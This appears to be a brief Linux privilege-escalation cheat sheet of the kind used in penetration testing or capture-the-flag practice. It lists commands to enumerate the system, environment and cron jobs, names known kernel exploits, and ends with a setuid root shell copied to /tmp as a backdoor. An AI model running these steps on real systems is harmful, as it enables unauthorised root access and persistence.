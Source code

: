 GTFObins / LINUX

[https://gtfobins.github.io/](https://gtfobins.github.io/)
`LOLBAS / WINDOWS`
[https://lolbas-project.github.io/](https://lolbas-project.github.io/)
`Pwnkit`
`dirty pipe`
+w docker.sock
`reddit overlayfs`

```shell
(cat /proc/version || uname -a ) 2>/dev/null
```

```shell
lsb_release -a 2>/dev/null # old, not by default on many systems
```

```shell
cat /etc/os-release 2>/dev/null # universal on modern systems
```

```shell
echo $PATH
```

```shell
(env || set) 2>/dev/null
```

```shell
cat /proc/version
```

```shell
uname -a
```

```shell
searchsploit "Linux Kernel"
```

[https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

```shell
crontab -l
```

```shell
cat /etc/crontab
```

```shell
ls -al /etc/cron* /etc/at*
```

```shell
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

```bash
cp /bin/sh /tmp
chown root:root /tmp/sh
chmod +s /tmp/sh
```
